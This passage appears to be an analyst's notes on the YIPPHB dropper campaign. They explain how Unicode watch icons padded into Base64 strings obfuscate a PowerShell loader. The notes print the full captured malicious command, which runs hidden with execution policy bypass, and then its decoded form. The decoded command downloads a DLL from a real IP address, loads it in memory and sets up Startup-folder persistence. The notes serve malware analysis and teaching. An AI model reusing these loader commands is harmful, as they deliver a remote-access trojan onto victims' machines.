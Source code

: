 ## Key takeaways

- Elastic Security Labs identified 12 clusters of activity using a similar TTP of threading Base64 encoded strings with Unicode icons to load the YIPPHB dropper.
- YIPPHB is an unsophisticated, but effective, dropper used to deliver RAT implants going back at least May of 2022.
- The initial access attempts to use Unicode icons embedded in Powershell to delay automated analysis.

## **Preamble**

While reviewing telemetry data, Elastic Security Labs identified abnormal arguments during the execution of Powershell. A closer examination identified the use of Unicode icons within Base64-encoded strings.  A substitution mechanism was used to replace the icons with ASCII characters.

Once the icons were replaced with ASCII characters, a repetitive process of collecting Base64 encoded files and reversed URLs was used to execute a dropper and a full-featured malware implant. The dropper and malware implant was later identified as YIPPHB and NJRAT, respectively.

This research focused on the following:

- Loader phase
- Dropper phase

## **Analysis**

The analysis of the intrusion set describes an obsfuscation method (maybe) intended to evade automated analysis of PowerShell commands

![[/Untitled 540.png|Untitled 540.png]]

Execution flow for the REF4526 intrusion set

![[/Untitled 1 6.png|Untitled 1 6.png]]

Trend Micro Vision One Alert

![[/Untitled 2 6.png|Untitled 2 6.png]]

![[/Untitled 3 6.png|Untitled 3 6.png]]

**maintains access by copying itself into the user's Startup folder as a natively-supported VBscript.**

## **Loader phase**

While analyzing the Powershell command, I observed Unicode icons embedded into Powershell commands. The use of Unicode to obfuscate Powershell commands is not a technique i have observed.

```PowerShell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command $iUqm = 'JABSAG8AZABhAEMAbwBwAHkAIAA9ACAAJwC0ALIAqgC3ALMAtwCzAKoAswC0ACcAOwBbAEIAeQB0AG⌚⌚⌚AWwBdAF0AIAAkAEQATABMACAAPQAgAFsAcwB5AHMAdABlAG0ALgBDAG8AbgB2AG⌚⌚⌚AcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQA⌚⌚⌚wB0AHIAaQBuAGcAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAG⌚⌚⌚AdAAuAFcAZQBiAEMAbABpAG⌚⌚⌚AbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQA⌚⌚⌚wB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AOQAxAC4AMgAxADMALgA1ADAALgA3ADQALwBHAFIARQBFAE4ALwBSAFgAVwBFAFIALwBkAGwAbABmADMALgB0AHgAdAAnACkAKQA7AFsAcwB5AHMAdABlAG0ALgBBAHAAcABEAG8AbQBhAGkAbgBdADoAOgBDAH⌚⌚⌚AcgByAG⌚⌚⌚AbgB0AEQAbwBtAGEAaQBuAC4ATABvAGEAZAAoACQARABMAEwAKQAuAEcAZQB0AFQAeQBwAG⌚⌚⌚AKAAnAE4AdwBnAG8AeABNAC4ASwBQAEoAYQBOAGoAJwApAC4ARwBlAHQATQBlAHQAaABvAGQAKAAnAFAAVQBsAEcASwBBACcAKQAuAEkAbgB2AG8AawBlACgAJABuAH⌚⌚⌚AbABsACwAIABbAG8AYgBqAG⌚⌚⌚AYwB0AFsAXQBdACAAKAAnAEcAcwBBAG8AeQA5AFAAcwB3AHgAeAB4AC8AZABhAG8AbABuAHcAbwBkAC8AbQBvAGMALgBvAGkAZQB0AHMAYQBwAC8ALwA6AHMAcAB0AHQAaAAnACAALAAgACQA⌚⌚⌚gBvAGQAYQBDAG8AcAB5ACAALAAgACcARgAzACAAJwAgACkAKQA=';$OWjuxD = [system.Text.Encoding]::Unicode.GetString( [system.Convert]::FromBase64String( $iUqm.replace('⌚⌚⌚','U') ) );$OWjuxD = $OWjuxD.replace('´²ª·³·³ª³´', 'C:\Users\tcuame\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Multa\#6587765.pdf - copia - copia - copia (6).vbs');powershell.exe -windowstyle hidden -ExecutionPolicy Bypss -NoProfile -Command $OWjuxD
```

While this technique is not overly complex in that it simply replaces the icons with an ASCII character, it is creative. **This technique could delay automated analysis of Base64 encoded strings** unless the Powershell command was either fully executed or an analysis workflow was leveraged to process Unicode and replacement functions.

  

Looking at the Powershell command, i was able to identify a process to replace the Unicode watch icons (⌚⌚⌚) with a **U**.

To illustrate what’s happening, I used the data analysis tool created by the GCHQ: [**CyberChef**](https://gchq.github.io/CyberChef/).

  

![[/Untitled 4 6.png|Untitled 4 6.png]]

The output was:

```PowerShell
$RodaCopy = '´²ª·³·³ª³´';[Byte[]] $DLL = [system.Convert]::FromBase64String((New-Object Net.WebClient).DownloadString('http://91[.]213[.]50[.]74/GREEN/RXWER/dllf3.txt'));[system.AppDomain][:][:]CurrentDomain.Load($DLL).GetType('NwgoxM.KPJaNj').GetMethod('PUlGKA').Invoke($null, [object[]] ('GsAoy9Pswxxx/daolnwod/moc.oietsap//:sptth' , $RodaCopy , 'F3 ' ))
```

There is an IP Address from where the **LOADER** is downloaded. `'hxxp[://]91[.]213[.]50[.]74/GREEN/RXWER/dllf3.txt'`

![[/Untitled 5 5.png|Untitled 5 5.png]]

![[/Untitled 6 4.png|Untitled 6 4.png]]

And also a reversed URL. `'hxxps[://]pasteio[.]com/download/xxxwsP9yoAsG'`

![[/Untitled 7 4.png|Untitled 7 4.png]]

![[/Untitled 8 4.png|Untitled 8 4.png]]

  

- Continued
    
    Downloading the **dllf3.txt** from the source provides me another Base64-encoded string.
    
    ![[/Untitled 9 4.png|Untitled 9 4.png]]
    
      
    
    ## **Dropper phase**
    
    - What is a Dropper?
        
        A dropper is **a kind of Trojan that has been designed to "install" malware (virus, backdoor, etc.) to a computer**. The malware code can be contained within the dropper in such a way as to avoid detection by virus scanners; or the dropper may download the malware to the targeted computer once activated.
